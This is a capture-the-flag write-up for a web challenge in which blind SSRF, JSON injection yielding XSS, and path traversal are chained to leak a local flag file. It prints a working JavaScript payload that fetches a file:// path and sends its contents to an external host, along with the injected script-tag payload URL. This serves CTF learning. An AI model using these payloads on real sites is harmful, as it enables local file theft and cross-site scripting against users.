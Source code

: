 ## Owner:

> CaptainFreak

#### Solved?

 - No

#### Tried:

 > Had A look, Thought of Exploiting XSS in headless client for local file exfiltration through Blind SSRF in report feature but thought of CORS blocking and did not go further to explore. This should have given clear hint to find XSS somehow :/ . Plus to find the location of flag, should have fuzzed around But did not try further, missed subtle hints around the CAT pic loading feature, good point to note, Good CTF don't give some features just for the sake of story.

#### Solutions:

The challenge was to exlpoit Blind SSRF + XSS to leak `local` flag file.

Steps to solve the challenge:

1. Detect that Blind SSRF is present in /report
2. Upon view source of main page, Find that the inline script takes query parameter `p`  (ctf.com/?`p`) and does a request to /cat?kind=p, If this is succuesful, it return a content ` array` of names of `Files` of cats. If it does not find that type of cat, It errors out with a content error `string`.
3. It checks if the status paramter returned in JSON response is "ok" and if yes, Without any sanitization, It puts the content arrays elements in img src.
4. If the status in JSON response is not ok, it does nothing.
5. Upon fuzzing, /cats?kind=FUZZ, It is evident that if the cat type is present, It gives file name, If not then it return our string in response in JSON, Json injection Possible here.
6. Using JSON injection `", "content": ["\"><script src='https://captainfreak.com/xss.js'></script>"], "status": "ok", "a": "`

We can manipulate frontend check of "status" value being "ok" as JSON parse in JS only considers last occurence of element if there are multiple. Now we have complete XSS on /index.html 

7. Further fuzzing and observation reveals that this cat types are indeed a directory names and the api just lists file inside the directory.
8. Path traversal to `/cats?kind=../templates` gives out that flag is at `/app/templates/flag.txt`.
9. Now these are the bugs, We some how need chain them to exfiltrate this flag file.
10. We can host evil js file
```
fetch('file:///app/templates/flag.txt').then(response => response.text()).then((response) => {window.location = 'https://captainfreak.com/flag?a=' + (btoa(response) || 'No Value')});

```

and feed it through BLIND SSRF such as 

http://catweb.zajebistyc.tf/?+urlencode(","content": ["\"><script src='https://captainfreak.com/xss.js'></script>"], "status": "ok", "a": ")

But our JS wont work as CORS would block our evil JS's request to file:// as the origins dont match at all.

But file://app/template/index.html === http://cat.com/ in the context of Blind SSRF victim.

Hence Final Payload: 

```
file:///app/templates/index.html?urlencode(","content": ["\"><script src='https://captainfreak.com/xss.js'></script>"], "status": "ok", "a": ")
```


References:
1. https://d1r3wolf.blogspot.com/2020/03/confidence-ctf-2020-cat-web-challenge.html

